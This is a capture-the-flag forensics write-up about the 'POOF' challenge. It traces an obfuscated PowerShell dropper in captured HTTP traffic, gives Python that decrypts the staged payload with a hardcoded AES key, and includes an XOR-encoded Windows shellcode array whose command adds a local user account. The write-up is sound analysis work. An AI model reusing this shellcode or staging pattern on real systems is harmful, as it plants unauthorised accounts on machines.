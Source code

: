https://ctftime.org/event/2570

# POOF (Forensics)

## Solution

We are only given a .pcap file.

The HTTP traffic is the most interesting part. There is a .ps1 and a .bin file.

The ps1 file is a bit obsfucated. 

I tried [PowerDecode](https://github.com/Malandrone/PowerDecode), worked pretty well.
The powershell script is just decrypting whatever is on the .bin using CBC.

The iv had the wrong length and truncating it made it work.

After that we get a .exe.

Putting it on [ILSpy](https://github.com/icsharpcode/ILSpy) shows that it is executing some shell code.

And the flag is in plaintext on the shellcode.

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

def dec():
    def aes_decrypt_cbc_pkcs7(iv, ciphertext, key):
        cipher = AES.new(key, AES.MODE_CBC, iv)
        plaintext = unpad(cipher.decrypt(ciphertext), AES.block_size)
        return plaintext

    iv = b"Md33eFa0wNx2Zq5L"
    key = b"sksd89D2G0X9jk2fF1b4S2a7Gh8aVk0L"
    text = bytes.fromhex(open("asdf.bin").read().rstrip())

    decrypted_plaintext = aes_decrypt_cbc_pkcs7(iv, text, key)
    open("a.exe", "wb").write(decrypted_plaintext)


def xorr():
    arr = [129, 149, 255, 125, 125, 125, 29, 244, 152, 76, 189, 25, 246, 45, 77, 246, 47, 113, 246, 47, 105, 246, 15, 85, 114, 202, 55, 91, 76, 130, 209, 65, 28, 1, 127, 81, 93, 188, 178, 112, 124, 186, 159, 143, 47, 42, 246, 47, 109, 246, 55, 65, 246, 49, 108, 5, 158, 53, 124, 172, 44, 246, 36, 93, 124, 174, 246, 52, 101, 158, 71, 52, 246, 73, 246, 124, 171, 76, 130, 209, 188, 178, 112, 124, 186, 69, 157, 8, 139, 126, 0, 133, 70, 0, 89, 8, 153, 37, 246, 37, 89, 124, 174, 27, 246, 113, 54, 246, 37, 97, 124, 174, 246, 121, 246, 124, 173, 244, 57, 89, 89, 38, 38, 28, 36, 39, 44, 130, 157, 34, 34, 39, 246, 111, 150, 240, 32, 23, 124, 240, 248, 207, 125, 125, 125, 45, 21, 76, 246, 18, 250, 130, 168, 198, 141, 200, 223, 43, 21, 219, 232, 192, 224, 130, 168, 65, 123, 1, 119, 253, 134, 157, 8, 120, 198, 58, 110, 15, 18, 23, 125, 46, 130, 168, 30, 16, 25, 93, 82, 30, 93, 19, 24, 9, 93, 8, 14, 24, 15, 93, 17, 24, 26, 20, 9, 8, 14, 24, 15, 93, 8, 18, 27, 9, 30, 9, 27, 6, 42, 73, 14, 34, 76, 41, 34, 47, 78, 28, 17, 17, 4, 34, 28, 51, 34, 52, 16, 13, 17, 73, 19, 9, 66, 66, 0, 93, 82, 28, 25, 25, 93, 82, 4, 125]
    b = 125

    for i in range(0, len(arr)):
        arr[i] ^= b

    print(f"DEBUGPRINT[2]: lab.py:287: bytearray(arr)={bytearray(arr)}")


xorr()
```

## Flag
`uoftctf{W4s_1T_R3ally_aN_Impl4nt??}`

shafouz 2025/01/11
